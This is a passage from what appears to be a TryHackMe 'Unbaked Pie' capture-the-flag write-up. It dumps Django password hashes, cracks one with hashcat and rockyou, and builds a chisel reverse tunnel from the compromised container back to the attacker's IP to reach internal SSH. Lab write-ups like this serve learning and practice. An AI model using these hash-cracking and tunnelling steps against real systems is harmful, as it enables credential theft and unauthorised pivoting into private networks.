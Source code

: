 ### auth_user
```console
sqlite> select * from auth_user;
1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
```
Here we get hash for 5 different users one of which is ramsey. And from the hashcat example-hashes page, I found that the mode for django hash is 10000.

### Cracking the hash
```console
local@local:~/Documents/tryhackme/unbaked_pie$ hashcat -m 10000 hash /usr/share/wordlists/rockyou.txt
```
Using rockyou only one hash for testing was cracked.
```
testing:lala12345
```
Now, as the credential reusing is very common, I think this might be the password for user ramsey but we can not SSH into the box as there was no SSH daemon on the container and the Port was not accessible from outside to try from our local box. So, I used chisel to create a port tunnel.
You can download chisel binary from [here](https://github.com/jpillora/chisel).

## Port Tunneling using chisel

### On local box
```console
local@local:~/Documents/tryhackme/unbaked_pie$ sudo ./chisel server -p 1880 --reverse
[sudo] password for local: 
2020/12/03 18:26:43 server: Reverse tunnelling enabled
2020/12/03 18:26:43 server: Fingerprint 03:bd:a3:5c:9e:ec:e5:be:54:0b:9d:bc:91:a8:4b:d9
2020/12/03 18:26:43 server: Listening on 0.0.0.0:1880...
```

### On remote box
I uploaded the chisel binary on the container using netcat.
```console
root@8b39a559b296:/home/site# ./chisel client 10.6.31.213:1880 R:22:172.17.0.1:22
2020/12/03 12:42:00 client: Connecting to ws://10.6.31.213:1880
2020/12/03 12:42:02 client: Fingerprint 03:bd:a3:5c:9e:ec:e5:be:54:0b:9d:bc:91:a8:4b:d9
2020/12/03 12:42:03 client: Connected (Latency 381.440889ms)
```
And the connection is made. If we were to check for the listening service on our box, we can find that Port 22 is listening.
